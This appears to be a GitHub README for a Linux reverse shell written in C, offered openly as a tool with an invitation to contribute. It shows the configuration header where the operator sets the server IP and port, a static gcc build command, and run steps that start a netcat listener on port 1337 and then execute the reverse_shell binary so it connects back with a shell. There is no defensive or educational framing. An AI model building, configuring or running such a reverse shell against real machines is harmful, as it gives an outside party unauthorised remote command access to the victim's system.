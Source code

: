 ### For Linux Machines!
<h1 align="center">
	<img src="https://static.thenounproject.com/png/2341691-84.png" width="150px"><br>
    Reverse Shell written in C.
</h1>

### Configuration
Go into `includes/config.h` to change all this.
```c
#pragma once

#define SERVER_IP "127.0.0.1" // Change to your server IP
#define SERVER_PORT 1337 // Changing this is optional
```
### Compiling
```
gcc -static -o reverse_shell main.c
```
### Running
```
[user@linux]$ nc -lvvp 1337 -s 127.0.0.1
-----------------------
[user@linux]$ ./reverse_shell
``` 
### Contributions 🎉
###### If you're interested in contributing simply open a pull request!
